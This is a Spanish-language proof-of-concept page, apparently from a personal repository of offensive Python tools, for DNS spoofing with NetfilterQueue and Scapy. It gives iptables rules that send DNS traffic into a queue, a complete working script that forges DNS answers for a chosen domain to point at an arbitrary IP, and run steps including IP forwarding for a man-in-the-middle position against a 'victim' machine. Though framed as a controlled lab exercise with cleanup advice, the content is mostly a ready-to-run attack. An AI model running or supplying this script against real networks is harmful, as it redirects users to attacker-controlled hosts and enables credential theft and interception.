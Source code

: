 
---

# PoC — netfilterqueue (DNS spoofing, integración con Scapy)

---

## Resumen

Documento PoC que muestra cómo usar `netfilterqueue` junto con **Scapy** para inspeccionar y modificar tráfico DNS (DNS spoofing) en un laboratorio controlado. Este fichero está pensado para relacionarse directamente con la documentación ubicada en `Lenguajes/Python/Utilidades Ofensivas/` (por ejemplo, el documento de "Evolución del Script de DNS Spoofing").

[Ver tutorial sobre DNS_spoofing.py](../../../Utilidades%20Ofensivas/DNS%20Spoofing/dns_spoofing_tutorial.md)

---

## Requisitos

- Linux (Debian/Ubuntu recomendado) con `iptables` o `nftables` gestionando Netfilter.
    
- Python 3.8+ y paquetes: `scapy`, `netfilterqueue` (nota: el paquete del sistema suele llamarse `python3-netfilterqueue` o `NetfilterQueue` en pip). Instalar con:
    

```bash
python3 -m venv venv
source venv/bin/activate
pip install scapy
pip install NetfilterQueue
# Alternativa en Debian/Ubuntu:
# sudo apt install python3-netfilterqueue
```

- Permisos de root para manipular reglas iptables y raw sockets.
    
---

## Reglas iptables de ejemplo (entorno de laboratorio)

Redirige paquetes UDP/53 a la cola 0 para que `netfilterqueue` los reciba.

```bash
# Guardar reglas actuales (importante)
sudo iptables-save > /tmp/iptables.before

# Enrutamiento de DNS UDP a NFQUEUE 0
sudo iptables -I FORWARD -p udp --dport 53 -j NFQUEUE --queue-num 0
# Si la prueba la haces en la misma máquina (MITM con forwarding), usa:
# sudo iptables -I OUTPUT -p udp --dport 53 -j NFQUEUE --queue-num 0
# sudo iptables -I INPUT  -p udp --dport 53 -j NFQUEUE --queue-num 0
```

Al terminar las pruebas, restaura reglas:

```bash
sudo iptables-restore < /tmp/iptables.before
```

---

## Script PoC (netfilterqueue + Scapy) — `dns_spoof_nfqueue.py`


```python
#!/usr/bin/env python3
"""dns_spoof_nfqueue.py
PoC mínimo de DNS spoofing usando NetfilterQueue + Scapy.
Uso: sudo python3 dns_spoof_nfqueue.py --target-ip 192.168.1.110 --domain example.com
"""
import argparse
import signal
import sys

from netfilterqueue import NetfilterQueue
import scapy.all as scapy

# Ctrl+C handler
def def_handler(sig, frame):
    print('\n[!] Saliendo y restaurando estado...')
    sys.exit(0)

signal.signal(signal.SIGINT, def_handler)

# Función que procesa paquetes
def process_packet(packet, target_domain, fake_ip):
    scapy_packet = scapy.IP(packet.get_payload())

    # Solo trabajamos con paquetes DNS (consulta o respuesta)
    if scapy_packet.haslayer(scapy.DNSQR):
        qname = scapy_packet[scapy.DNSQR].qname
        # Filtrar por dominio objetivo (bytes)
        if target_domain.encode() in qname:
            print(f"[+] Detected DNS query for {qname.decode()}")

            # Si es una consulta, construir respuesta falsa
            if scapy_packet.haslayer(scapy.UDP):
                # Crear respuesta DNS
                answer = scapy.DNSRR(rrname=qname, rdata=fake_ip)
                scapy_packet[scapy.DNS].an = answer
                scapy_packet[scapy.DNS].ancount = 1

                # Borrar campos para que Scapy los regenere
                try:
                    del scapy_packet[scapy.IP].len
                    del scapy_packet[scapy.IP].chksum
                    del scapy_packet[scapy.UDP].len
                    del scapy_packet[scapy.UDP].chksum
                except Exception:
                    pass

                # Inyectar el paquete modificado
                packet.set_payload(bytes(scapy_packet))
                print(f"[+] Spoofed {qname.decode()} -> {fake_ip}")

    packet.accept()


def main():
    parser = argparse.ArgumentParser(description='PoC DNS spoofing via NFQUEUE + Scapy')
    parser.add_argument('--target-ip', required=True, help='IP donde redirigir el dominio objetivo (fake IP)')
    parser.add_argument('--domain', required=True, help='Dominio objetivo a envenenar (ej. example.com)')
    parser.add_argument('--queue-num', default=0, type=int, help='Número de NFQUEUE (default: 0)')
    args = parser.parse_args()

    nfqueue = NetfilterQueue()
    print(f"[i] Bind to NFQUEUE {args.queue_num} — spoofing {args.domain} -> {args.target_ip}")

    # Bind con una función parcial que cierre sobre los argumentos
    nfqueue.bind(args.queue_num, lambda pkt: process_packet(pkt, args.domain, args.target_ip))

    try:
        nfqueue.run()
    except KeyboardInterrupt:
        print('\n[!] Detenido por usuario')
    finally:
        nfqueue.unbind()


if __name__ == '__main__':
    main()
```

---

## Diagnóstico y pruebas

1. Habilita ip forwarding si usas MITM:
    

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

2. Inserta las reglas iptables para enviar UDP/53 a NFQUEUE (ver sección más arriba).
    
3. Arranca el PoC: `sudo python3 dns_spoof_nfqueue.py --target-ip <IP_objetivo> --domain <dominio/web>`
    
4. Desde una máquina víctima, realiza una consulta DNS al dominio objetivo y observa en el PoC las detecciones y el resultado final.
    
---

## Buenas prácticas y seguridad

- Asegúrate de limpiar las reglas de iptables y desactivar ip_forward tras las pruebas.
    
- Documenta la configuración de red (modo bridge/NAT/host-only) para reproducibilidad.
    
- Añade logs y opciones de verbose/quiet al script si lo vas a usar en ejercicios más largos.

---
